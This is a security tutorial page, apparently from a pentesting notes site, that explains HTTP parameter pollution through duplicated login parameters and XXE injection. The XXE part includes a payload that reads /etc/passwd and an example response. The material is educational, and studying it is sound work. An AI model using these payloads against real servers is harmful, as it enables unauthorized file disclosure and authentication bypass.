 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Security Misconfiguration

Configuration decisions in the application and in how it is deployed. Some examples are the use of default accounts or credentials in administrative tools or the maintenance of unnecessary features. We can find some scenarios where this vulnerability is found:

## <mark style="color:blue;">HTTP Parameter Pollution</mark>

Manipulate or pollute HTTP requests by injecting multiple parameters with the same name into a single request, potentially allowing to bypass security controls, altering the behavior of the application, or accessing unauthorized data.

We can find a typical example of this vulnerability as follows:

* We send a petition to a login form

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://example.com/login?user=guest&pass=password
```
{% endcode %}

***

* We can create confusion by duplicating the user parameter, which could allow us to get information or even access another account.

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://example.com/login?user=admin&user=guest&pass=password
```
{% endcode %}

***

* We can also do this by modifying directly the request parameters

{% code title="Example request" overflow="wrap" lineNumbers="true" %}
```json
{
    "data": {
        "user": "admin",
        "user": "guest",
        "pass": "password"    
    }
}
```
{% endcode %}

## <mark style="color:blue;">XXE Injection</mark>

XML External Entities, disclose or retrieve arbitrary files from the local system of the target server by modifying the submitted XML document. It can usually be the first step to gain a Remote Code Execution (RCE).

We can find a typical example of this vulnerability as follows:

* A site accepts XML input and parses it without properly securing or validation.

{% code title="Request format" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ELEMENT data ANY >         <!--Allows any input without validation-->
    <!ELEMENT name (#PCDATA)>
]>
<data>
    <name>example</name>
</data>
```
{% endcode %}

***

* We can send an XML petition to request a system file using the _Entity_ parameter

{% code title="XEE payload" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">    <!--The External Entity -->
]>
<data>
    <name>&xxe;</name>
</data>
```
{% endcode %}

***

* With this, the contents of the requested file would be exposed.

{% code title="Example response" overflow="wrap" lineNumbers="true" %}
```xml
<data>
    <name>root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    </name>
</data>
```
{% endcode %}
